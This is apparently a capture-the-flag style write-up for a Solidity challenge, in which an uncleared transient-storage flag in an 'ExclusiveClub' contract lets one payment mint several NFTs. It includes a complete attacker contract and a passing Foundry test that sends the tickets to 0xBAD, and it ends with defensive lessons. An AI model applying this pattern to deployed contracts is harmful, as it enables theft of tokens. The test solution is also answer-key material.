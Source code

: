 
### Exploit Strategy

The strategy involves:
1. **Setting Transient Storage**: Call `payAdmission()` to set the transient storage flag.
2. **Exploiting Transient Storage**: Call `receiveTicket()` multiple times within the same transaction, allowing the minting of multiple NFTs.
3. **Collecting the NFTs**: Transfer the minted NFTs to the attacker's address.

### Exploit Code
To exploit this, we deploy an attacker contract to group all the necessary steps within a single transaction:

```javascript
contract Exploit {
    ExclusiveClub daClub;
    NFT ticket;

    constructor(ExclusiveClub _daClub, NFT _ticket) payable {
        daClub = _daClub;
        ticket = _ticket;
    }

    function exploit() external {
        daClub.externalJoinClub{value: 0.1 ether}();
        daClub.receiveTicket();
        daClub.receiveTicket();

        ticket.transferFrom(address(this), address(0xBAD), 0);
        ticket.transferFrom(address(this), address(0xBAD), 1);
        ticket.transferFrom(address(this), address(0xBAD), 2);
    }
}
```

And the corresponding test function:
```javascript
function test_GetThisPassing_8() public {
    address hacker = address(0xBAD);

    vm.startPrank(hacker);
    Exploit e = new Exploit{value: 0.1 ether}(daClub, ticket);
    e.exploit();
    
    vm.stopPrank();

    assertGt(ticket.balanceOf(hacker), 2);
}
```

### Lessons Learned
This exploit showcases the risks of using transient storage without explicitly clearing it after critical operations. It also demonstrates how composability issues can arise when contracts are called multiple times within the same transaction. Developers must be cautious when using transient storage, especially for reentrancy guards and state validation.
